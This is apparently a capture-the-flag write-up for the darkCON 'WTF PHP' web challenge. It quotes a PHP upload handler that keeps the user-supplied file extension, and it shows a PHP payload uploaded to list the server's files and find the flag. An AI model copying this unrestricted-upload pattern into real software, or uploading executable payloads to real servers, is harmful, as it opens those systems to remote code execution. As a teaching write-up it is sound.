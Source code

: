 # WTF PHP

Web<br/>
254 solves, 269 pts<br/>

### Description
````
Your php function didnt work? maybe some info will help you xD 
PS: Flag is somewhere in /etc
Note: This chall does not require any brute forcing
````
[Link](http://wtf-php.darkarmy.xyz/)



### Solution
First, viewing the source code shows us PHP code enclosed in a HTML comment.
````PHP
if(isset($_FILES['fileData'])){
  if($_FILES['fileData']['size'] > 1048576){
     $errors='File size should be less than 1 MB';
  }

  if(empty($errors)==true){
    $uploadedPath = "uploads/".rand().".".explode(".",$_FILES['fileData']['name'])[1];
    move_uploaded_file($_FILES['fileData']['tmp_name'],$uploadedPath);
    echo "File uploaded successfully\n";
    echo '<p><a href='. $uploadedPath .' target="_blank">File</a></p>';
  }else{
     echo $errors;
  }
}
````
After we upload any file, we are able to click on a generated link to go to the file<br/>
The file is always located in /uploads/(random-numbers).(file-extention)<br/>
However, when we try visitng [/uploads/](http://wtf-php.darkarmy.xyz/uploads/) directly from our browser, we are notified that we do not have permission to access it<br/>
Hence, let us upload a PHP payload to generate a list of all the available files in the /uploads/ directory<br/>
````
<?php
    $dirs = glob('*');
    print_r($dirs);
?>
````
Uploading it gives us all the files in the /uploads/ directory<br/>
We visit the first file in the array, and viola, we have found the flag!<br/>
> darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}
